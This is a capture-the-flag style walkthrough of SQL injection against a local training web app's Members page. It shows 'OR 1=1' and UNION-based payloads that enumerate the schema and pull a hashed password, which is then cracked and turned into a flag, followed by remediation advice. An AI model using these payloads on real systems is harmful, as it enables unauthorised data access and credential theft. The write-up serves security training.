 When navigating to the Members page http://localhost:8080/index.php?page=member we are met with an input field.

We can try to send `1 OR 1=1` to check if we could do an SQL Injection attack, and we see that we can indeed proceed when this is returned on the page:

```
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

Now that we know that it is vulnerable let's try getting some more information about the database:

`1 UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_schema=database() --`

This shows us that there are multiple columns that we can look into. Upon further research, we spot a user named `Flag` and we try to find his ID: 

`1 UNION SELECT user_id, first_name FROM users --`

We are now going to try to find some informations in the `Commentaire` and `countersign` columns: 

`1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --`

This gives us another hint:

```
ID: 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 -- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's follow the instructions:
 - Trying to decode `5ff9d0165b4f92b14994e5c685cdce28` we find that it's MD5 and decrypted we get `FortyTwo`
 - Lower all the chars -> `fortytwo`
 - SH256 on it -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

Here is our flag !

To remediate this vulnerability, the application should:
 - Use parameterized queries or prepared statements instead of directly concatenating user input into SQL queries
 - Implement input validation to reject suspicious inputs containing SQL syntax
 - Apply the principle of least privilege by using a database user with only the necessary permissions
 - Implement proper error handling that doesn't expose database details to users
